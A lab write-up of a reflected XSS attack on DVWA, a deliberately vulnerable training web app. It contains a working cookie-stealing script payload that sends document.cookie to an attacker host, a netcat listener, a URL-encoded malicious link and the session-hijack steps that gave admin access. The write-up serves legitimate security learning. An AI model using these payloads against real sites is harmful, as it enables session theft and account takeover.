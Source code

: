 ```yaml
---
title: "DVWA: XSS Reflected (low)"
---
```


## Objective

One way or another, steal the cookie of a logged in user.

(Security Level: `Low`)

::: info
**It is not** a pentest report.
:::

## Information Gathering

- `PHPSESSID` - The _cookie of a logged in user_.
- `dvwa:4280` - Target Machine hosting DVWA app on port 4280
- `kali[:PORT]` - Attack Machine (Kali Linux)

I've been using the `dvwa` (Target) to locally look for the attack surface and `kali` to exploit the XSS once I've found it.

## Enumeration

The page consists of a text field (`input[type=text]`) and _Submit_ button (`input[type=submit]`).

```html
<form name="XSS" action="#" method="GET">
  <p>
    What's your name?
    <input type="text" name="name" />
    <input type="submit" value="Submit" />
  </p>
</form>
```

Submitting a form results in displaying the text field value below the form:

```html
<form name="XSS" action="#" method="GET"><!-- ... --></form>
<pre>Hello Krystian</pre>
```

The text value is reflected in the URL Query Params as well:

```
http://127.0.0.1:4280/vulnerabilities/xss_r/?name=Krystian
```

### Looking for XSS

By trying to use `<b>Krystian</b>` as the value I confirmed that HTML is reflected properly on the website.

```html
<form name="XSS" action="#" method="GET"><!-- ... --></form>
<pre>
Hello 
	<b>Krystian</b>
</pre>
```

It seems that the developer forgot to validate the text input and remove the HTML tags before reflecting its value on the website.

By using `<script>alert(1)</script>` I also confirmed that **JS provided as the input is evaluated properly**.

### Using XSS to obtain

With that in mind I should be able not only to `alert` the `PHPSESSID` but also to prepare the URL that could send it over to my very own server.

## Exploitation

::: info
For reasons unbeknownst when I logged in to DVWA the _Security Level_ was set to **_Impossible_** and reverting it back to _Low_ resulted in having a `PHPSESSID` cookie set as `HttpOnly` (which blocked me from accessing it client-side).

To remediate that I manually set the Security Level to Low, removed the `PHPSESSID` cookie leaving the `security=low` cookie. After logging back in, the `HttpOnly` flag was false.

My wild guess is that it's kind of an error/regression of DVWA's (but I might be wrong).
:::

### Obtaining the `PHPSESSID` locally

I've prepared this [[payload]] that can be evaluated through the `input[type=text]` (where IP/port are of a Kali Linux VM):

```html
<script>
  new Image().src = "http://kali:9999/test.php?output=" + document.cookie;
</script>
```

Obviously I've also started to listen on port `9999` (via [[knowledge/off-sec/tools/netcat|netcat]]) on Kali Linux:

```sh
nc -lvp 9999
```

This way I could read the `PHPSESSID` cookie locally.

```http
GET /test.php?output=security=low;%20PHPSESSID=83b48b9b9628c1cc82f8b8ad9dc67e49 HTTP/1.1
```

## Privilege Escalation

### Stealing `PHPSESSID` from another host

Since the input value is reflected in the URL Query Params, I prepared the URL with the malicious payload:

```html
http://dvwa:4280/vulnerabilities/xss_r/?name=%3Cscript%3Enew+Image().src+%3D+%22http%3A%2F%2Fkali%3A9999%2Ftest.php%3Foutput%3D%22+%2B+document.cookie%3B%3C%2Fscript%3E#
# unsecaped: http://dvwa:4280/vulnerabilities/xss_r/?name=
<script>
  new Image().src = "http://kali:9999/test.php?output" + document.cookie;
</script>
#
```

By opening this URL on the Target Machine I obtained the `PHPSESSID`.

### Using the `PHPSESSID`

Lastly, I modified said cookie on the Attack Machine and opened DVWA's root. I was logged in as an Admin.

::: danger Why not just refresh?
Once you open DVWA app without being logged in, you are redirected to `/login.php`. Even if the `PHPSESSID` is valid, it still does not redirect to `/`, so you have to do it manually.
:::

